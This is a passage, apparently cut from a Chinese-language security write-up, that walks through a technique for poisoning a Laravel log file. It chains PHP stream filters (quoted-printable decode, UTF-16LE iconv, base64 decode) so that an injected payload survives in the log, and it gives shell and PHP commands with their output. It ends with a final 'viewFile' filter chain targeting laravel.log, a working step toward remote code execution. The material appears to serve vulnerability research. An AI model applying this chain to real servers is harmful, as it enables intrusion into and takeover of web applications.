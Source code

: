 我们的payload还在那里，安全无恙，只是前缀和后缀变成了非ASCII字符。然而，在日志条目中，我们的payload出现了两次，而不是一次。我们需要去掉第二个。

由于每个UTF-16字符占用两个字节，所以，我们可以通过在PAYLOAD的第二个实例的末尾增加一个字节，来使其无法对齐：

```shell
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0X[midfix]P\0A\0Y\0L\0O\0A\0D\0X[Some suffix ]' > /tmp/test.txt
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD存業晤硩偝䄀夀䰀伀䄀䐀堀卛浯⁥畳晦硩崠
```

这样做的好处是，前缀的对齐方式不再重要：如果前缀大小相等，第一个payload将被正确解码；否则的话，第二个payload就会被正确解码。

如果将上面的发现与前面的base64-decoding结合起来，就能够对我们想要的任何东西进行编码：

```php
$ echo -n TEST! | base64 | sed -E 's/./\0\\0/g'
V\0E\0V\0T\0V\0C\0E\0=\0
$ echo -ne '[Some prefix ]V\0E\0V\0T\0V\0C\0E\0=\0X[midfix]V\0E\0V\0T\0V\0C\0E\0=\0X[Some suffix ]' > /tmp/test.txt
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8|convert.base64-decode/resource=/tmp/test.txt');
TEST!
```

说到对齐，如果日志文件本身不是2字节对齐的，转换过滤器将如何处理？

```
PHP Warning:  file_get_contents(): iconv stream filter("utf16le"=>"utf-8"): invalid multibyte sequence in phpshell code on line 1
```

这又是一个问题。不过，我们可以借助两个payload来轻松地解决这个问题：一个是无害的payload A，另一个是具有攻击性的payload B，具体如下所示：

```
[prefix]PAYLOAD_A[midfix]PAYLOAD_A[suffix]
[prefix]PAYLOAD_B[midfix]PAYLOAD_B[suffix]
```

由于这里前缀、中缀和后缀都存在两份，还提供了payload_a和payload_b，所以，日志文件的大小必然是偶数，从而避免了错误的发生。

最后，我们还要解决最后一个问题：我们使用NULL字节将payload的字节从一个填充为两个。在PHP中试图加载一个带有NULL字节的文件时，会生成以下错误：

```
PHP Warning: file_get_contents() expects parameter 1 to be a valid path, string givenin php shell code on line 1
```

因此，我们将无法在错误日志中注入带有NULL字节的payload。幸运的是，最后一个过滤器可以帮到我们，它就是convert.quoted-printable-decode。

我们可以使用=00对NULL字节进行编码。

### 下面是我们最终的转换链：

```php
viewFile:php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.ba se64-decode/resource=/path/to/storage/logs/laravel.log
```
